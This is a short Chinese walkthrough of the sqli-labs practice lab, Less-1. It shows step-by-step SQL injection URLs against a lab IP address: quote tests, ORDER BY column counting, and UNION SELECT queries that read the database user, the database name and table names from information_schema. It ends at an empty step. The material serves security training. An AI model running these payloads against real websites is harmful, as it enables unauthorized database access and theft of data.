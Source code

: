 # sqli-lab

## Less-1

1.判断注入类型

```
http://212.64.13.182:30001/Less-1/?id=1               有回显
http://212.64.13.182:30001/Less-1/?id=1'              报错，可能字符型注入
http://212.64.13.182:30001/Less-1/?id=1' or '1'='1    正常显示
http://212.64.13.182:30001/Less-1/?id=1' and '1'='2   有回显，但是没数据，确定为字符型注入
```

2.判断列数

```
http://212.64.13.182:30001/Less-1/?id=1' order by 5 %23   查无此列
http://212.64.13.182:30001/Less-1/?id=1' order by 3 %23   正常显示
http://212.64.13.182:30001/Less-1/?id=1' order by 4 %23   查无此列，确定为3列
```

3.判断顺序

```
http://212.64.13.182:30001/Less-1/?id=-1' union select 1,2,3 %23   回显2,3
```

4.查询当前用户和数据库名

```
http://212.64.13.182:30001/Less-1/?id=-1' union select 1,user(),database() %23
回显root@localhost，security
```

在数据库中，有一个数据库：information_schema,是Mysql自带的信息数据库，information_schema 用于存储数据库元数据(关于数据的数据)，例如数据库名、表名、列的数据类型、访问权限

5.查询所有数据库名

```
http://212.64.13.182:30001/Less-1/?id=-1' union select 1,user(),group_concat(table_name) from  information_schema.tables where table_schema=database() %23                        回显  emails,referers,uagents,users
```

6.查询所有表名

```

```

